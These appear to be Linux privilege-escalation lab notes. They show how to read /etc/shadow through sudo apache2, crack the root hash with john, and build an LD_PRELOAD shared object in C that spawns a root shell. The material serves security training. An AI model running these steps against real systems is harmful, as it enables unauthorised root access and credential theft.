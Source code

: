 # 7. Privilage Escalation - Sudo (Abusing Intended Functionality)
## Detection

**Target box**

1. In command prompt type: `sudo -l`
2. From the output, notice the list of programs that can run via sudo.

## Exploitation

**Target box**

1. In command prompt type:
`sudo apache2 -f /etc/shadow`
2. From the output, copy the root hash.

**Attacker box**

1. Open command prompt and type:
`echo '[Pasted Root Hash]' > hash.txt`
2. In command prompt type:
`john --wordlist=/usr/share/wordlists/nmap.lst hash.txt`
3. From the output, notice the cracked credentials.

# 8. Privilage Escalation - Sudo (LD_PRELOAD) 
## Detection

**Target box**

1. In command prompt type: `sudo -l`
2. From the output, notice that the **LD_PRELOAD** environment variable is intact.

Exploitation

1. Open a text editor and type:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
2. Save the file as x.c
3. In command prompt type:
`gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
4. In command prompt type:
`sudo LD_PRELOAD=/tmp/x.so apache2`
5. In command prompt type: `id`
